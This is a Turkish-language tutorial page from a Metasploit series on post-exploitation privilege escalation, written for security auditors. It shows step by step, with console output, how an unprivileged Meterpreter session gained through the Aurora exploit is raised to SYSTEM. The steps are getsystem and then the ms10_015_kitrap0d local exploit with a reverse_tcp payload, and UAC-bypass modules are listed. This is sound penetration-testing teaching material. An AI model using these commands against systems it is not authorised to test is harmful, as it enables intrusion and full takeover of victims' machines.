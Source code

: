```yaml
---
draft: false
title: MSF Yetki Yükseltme
linkTitle: Yetki Yükseltme
translationKey: msf-privilage-escalation
weight: 240
date: 2017-05-25T13:16:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: yetki yükseltme olarak ifade edilen ( Privilege Escalation) kavramı inceleyeceğiz.
url: /tr/msf-yetki-yukseltme/
featured_image: /images/metasploit.jpg
categories:
   - Metasploit Framework
tags:
   - cybersecurity
   - metasploit framework
---
```

## Ya sonra?

Bir sistemin zafiyetini bulmak için gerekli çalışmaları yaptınız. Açık noktasını buldunuz ve doğru adımları uyguladıktan sonra hedef bilgisayarda bir komut satırı açmayı başardınız. Peki bundan sonra ne yapılmalı?

Bu yazımızdan itibaren yetki yükseltme olarak ifade edilen (İng: Privilege Escalation) kavramı inceleyeceğiz. Karşı sisteme erişim sağlayan güvenlik denetçisini bu aşamadan itibaren ilerleme sağlamayı hedeflemelidir. Ağda devam eden iletişimi kontrol etme, hash değerlerini elde etme bunlara örnek olarak verilebilir. Bir diğer hedef ise, bu bilgisayarı basamak olarak kullanarak (İng: Pivoting) başka bilgisayarlara erişim sağlamak olmalıdır.

Kullandığınız zafiyet ve buna yönelik exploit modülü karşı bilgisayarda oturum açmanıza yaramış olsa bile yetkisiz bir oturum açmış olabilirsiniz. Bu durumda yapabileceğiniz işlemler kısıtlı olacaktır. Böyle durumlar için Metasploit Framework içerisinde bulunan bir kaç alternatif modül bulunmaktadır. bunlardan bir tanesi de `getsystem` komutudur.

## Yetkisiz Oturum

Aşağıdaki örnekte görüldüğü gibi, hedef sistemde `ms10_002_aurora` modülü kullanılarak yetkisiz bir meterpreter oturumu açılmıştır.

```bash
msf exploit(ms10_002_aurora) >
> Sending Internet Explorer "Aurora" Memory Corruption to client 192.168.1.161
> Sending stage (748544 bytes) to 192.168.1.161
> Meterpreter session 3 opened (192.168.1.71:38699 -> 192.168.1.161:4444) at 2010-08-21 13:39:10 -0600

msf exploit(ms10_002_aurora) > sessions -i 3
> Starting interaction with 3...

meterpreter > getuid
Server username: XEN-XP-SP2-BARE\victim
meterpreter >
```

## GetSystem

`getsystem` komutunu kullanabilmek için öncelikle `priv` eklentisini sisteme yükleyelim.

```bash
meterpreter > use priv
Loading extension priv...success.
meterpreter >
```

`getsystem -h` komutunda olduğu gibi `-h` parametresini kullandığınızda kullanılabilir seçenekleri görebilirsiniz.

```bash
meterpreter > getsystem -h Usage: getsystem [options]

Attempt to elevate your privilege to that of local system.

OPTIONS:

-h        Help Banner.
-t <opt>  The technique to use. (Default to '0').
0 : All techniques available
1 : Service - Named Pipe Impersonation (In Memory/Admin)
2 : Service - Named Pipe Impersonation (Dropper/Admin)
3 : Service - Token Duplication (In Memory/Admin)

meterpreter >
```

```getsystem``` komutuna hiçbir parametre vermezseniz, varsayılan olarak tüm ihtimalleri deneyecektir.

```bash
meterpreter > getsystem
...got system (via technique 1).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

## Yerel Exploit Kullanma

Bazı durumlarda `getsystem` başarısız olur. Aşağıda bunun örneğini görebilirsiniz. `getsystem` başarısız olduğunda oturumu arka plana gönderip, Metasploit Framework içerisindeki diğer exploit modüllerini kullanmak gerekmektedir.

```bash
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied.
meterpreter >
```

Yukarıda başarısız olmuş bir `getsystem` komutu çıktısı görülüyor. Şimdi bunu arka plana gönderelim ve kullanılabilir durumdaki yerel exploit modüllerine bakalım.

```bash
meterpreter > background
> Backgrounding session 1...
msf exploit(ms10_002_aurora) > use exploit/windows/local/
...snip...
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
...snip...
use exploit/windows/local/ms10_015_kitrap0d
use exploit/windows/local/ms10_092_schelevator
use exploit/windows/local/ms11_080_afdjoinleaf
use exploit/windows/local/ms13_005_hwnd_broadcast
use exploit/windows/local/ms13_081_track_popup_menu
...snip...
msf exploit(ms10_002_aurora) >
```

Bu listedeki modüllerden `exploit/windows/local/ms10_015_kitrap0d` modülünü kullanalım.

```bash
msf exploit(ms10_002_aurora) > use exploit/windows/local/ms10_015_kitrap0d
msf exploit(ms10_015_kitrap0d) > set SESSION 1
msf exploit(ms10_015_kitrap0d) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(ms10_015_kitrap0d) > set LHOST 192.168.1.161
msf exploit(ms10_015_kitrap0d) > set LPORT 4443
msf exploit(ms10_015_kitrap0d) > show options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.
Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none)
   LHOST     192.168.1.161    yes       The listen address
   LPORT     4443             yes       The listen port
Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)
msf exploit(ms10_015_kitrap0d) > exploit

>  Started reverse handler on 192.168.1.161:4443 
>  Launching notepad to host the exploit...
[+]  Process 4048 launched.
>  Reflectively injecting the exploit DLL into 4048...
>  Injecting exploit into 4048 ...
>  Exploit injected. Injecting payload into 4048...
>  Payload injected. Executing exploit...
[+]  Exploit finished, wait for (hopefully privileged) payload execution to complete.
>  Sending stage (769024 bytes) to 192.168.1.71
>  Meterpreter session 2 opened (192.168.1.161:4443 -> 192.168.1.71:49204) at 2014-03-11 11:14:00 -0400
```

Gerekli modül ve payload ayarlarını yaptıktan sonra çalıştırılan exploit, hedef sistemde bir oturum açmayı başarmıştır. Şimdi `getuid` komutunu verdiğimizde `SYSTEM` yetkili bir kullanıcı gibi hareket edilebileceği aşağıda görülmektedir.

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
